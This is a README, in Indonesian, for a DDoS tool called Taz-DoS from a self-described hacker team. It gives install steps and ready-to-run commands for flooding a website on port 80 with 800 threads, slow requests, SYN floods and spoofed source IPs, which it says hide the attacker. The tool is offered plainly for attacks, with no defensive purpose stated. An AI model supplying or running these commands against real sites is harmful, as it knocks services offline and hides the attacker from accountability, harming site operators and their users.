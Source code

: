 # Taz-DoS

Taz-Dos adalah Tools DDoS dari team TazManianDevil Cyber Team. Tools ini adalah tools DDoS Website. 
DDoS adalah jenis serangan yang dilakukan dengan cara membanjiri lalu lintas jaringan internet pada server, sistem, atau jaringan. Umumnya serangan ini dilakukan menggunakan beberapa komputer host penyerang sampai dengan komputer target tidak bisa diakses. DDoS adalah serangan yang sangat populer digunakan oleh hacker.

# Installasi
1. pkg install python2
2. git clone https://github.com/tazmaniandevilcyberteam/Taz-DoS
3. cd Taz-DoS
4. pip2 install -r requirements.txt
5. python2 Taz-DoS.py

# Usage

1. Serangan biasa:

python2 taz-DoS.py -target www.target.com -port 80 -threads 800

2. Serangan menengah

python2 Taz-DoS.py -target www.target.com -port 80 -slow -request -threads 800

3. Serangan tingkat tinggi

python2 Taz-DoS.py -target www.target.com -port 80 -slow -request -threads 800 -syn

4. Serangan manipulasi IP

python2 Taz-DoS.py -target www.target.com -port 80 -slow -request -threads 800 -spoof 5.5.5.5

-spoof untuk manipulasi IP kita saat melakukan penyerangan

Coded By: DemonX
